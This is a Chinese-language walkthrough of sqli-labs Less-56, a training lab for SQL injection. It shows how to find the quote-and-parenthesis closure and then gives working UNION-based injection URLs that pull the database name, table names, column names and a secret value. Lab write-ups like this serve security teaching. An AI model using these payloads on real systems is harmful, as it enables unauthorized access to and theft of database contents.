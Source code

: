 ```yaml
---
title: Less - 56
date: 2023-03-24T19:08:09Z
lastmod: 2023-03-24T19:16:07Z
---
```


# Less - 56

---

# 通关教程

---

## 1、判断闭合

---

```http
http://192.168.23.128/sqli-labs/Less-56/?id=1'--+ #回显错误
http://192.168.23.128/sqli-labs/Less-56/?id=1')--+ #回显正常
```

​![image](assets/image-20230324191050-6x3bmes.png)​

所以闭合方式')–+，并且为字符型注入

---

## 2、查看当前库

---

```http
http://192.168.23.128/sqli-labs/Less-56/?id=-1') union select 1,2,database()--+
```

​![image](assets/image-20230324191152-ljz2eme.png)​

---

## 3、查看challenges库下的所有表

---

```http
http://192.168.23.128/sqli-labs/Less-56/?id=-1') union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='challenges')--+
```

​![image](assets/image-20230324191305-jqugmot.png)​

---

## 4、查看9po9d7v0i2表下的所有字段

---

```http
http://192.168.23.128/sqli-labs/Less-56/?id=-1') union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='9po9d7v0i2')--+
```

​![image](assets/image-20230324191414-ddxs73m.png)​

---

## 5、查看secret_AMI8字段下的值

---

```http
http://192.168.23.128/sqli-labs/Less-56/?id=-1') union select 1,2,(select group_concat(secret_AMI8) from challenges.9po9d7v0i2)--+
```

​![image](assets/image-20230324191534-gkxk8kg.png)​

​![image](assets/image-20230324191607-4bc2y4d.png)​

